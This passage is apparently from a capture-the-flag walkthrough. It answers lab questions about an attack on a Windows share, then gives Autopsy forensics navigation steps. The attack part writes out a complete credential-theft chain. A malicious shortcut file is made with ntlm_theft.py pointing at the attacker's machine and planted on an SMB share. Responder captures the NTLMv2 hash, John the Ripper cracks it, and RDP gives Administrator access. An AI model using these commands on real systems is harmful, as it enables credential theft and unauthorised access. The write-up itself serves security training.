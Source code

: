 See the **Responding to the Race** section.

**Q4: What is the password that McGreedy set for the Administrator account?**

Generate the malicious file shortcut.
```
python3 ntlm_theft.py -g lnk -s ATTACK-MACHINE-IP -f stealthy.lnk
```

Upload the file to the share and also download McGreedy's password list.
```
smbclient //10.10.70.14/ElfShare/ -U guest%
put stealthy.lnk
get greedykeys.txt
```

Start the Responder server and wait for the authentication attempt.
```
sudo responder -I INTERFACE
```

Save the **NTLMv2-SSP Hash** (the entire string, including the username and hostname) to a file.

Crack with John the Ripper.
```
john --format=netntlmv2 --wordlist=greedykeys.txt hash.txt
```

**Q5: What is the value of the flag that is placed on the Administrator’s desktop?**

RDP using the newly acquired credentials.
```
xfreerdp /u:Administrator '/p:PASSWORD' /v:TARGET-IP /size:90% /sec:tls-seclevel:0
```

<br>

## Day 24 - You Are on the Naughty List, McGreedy

**Q1: One of the photos contains a flag. What is it?**

Go to **File Views** -> **File Types** -> **By Extension** -> **Images (156)**.

Look at `board2.jpg`.

**Q2: What name does Tracy use to save Detective Frost-eau’s phone number?**

Go to **File Views** -> **File Types** -> **By Extension** -> **Images (156)**.

Look at `57_task_thumbnail.png`.

**Q3: One SMS exchanged with Van Sprinkles contains a password. What is it?**

Go to **Data Artifacts** -> **Messages (26)**.

Look at the message with a timestamp of `2023-10-28 14:42:05 UTC`.

<br>

## Day 24 - Jolly Judgment Day
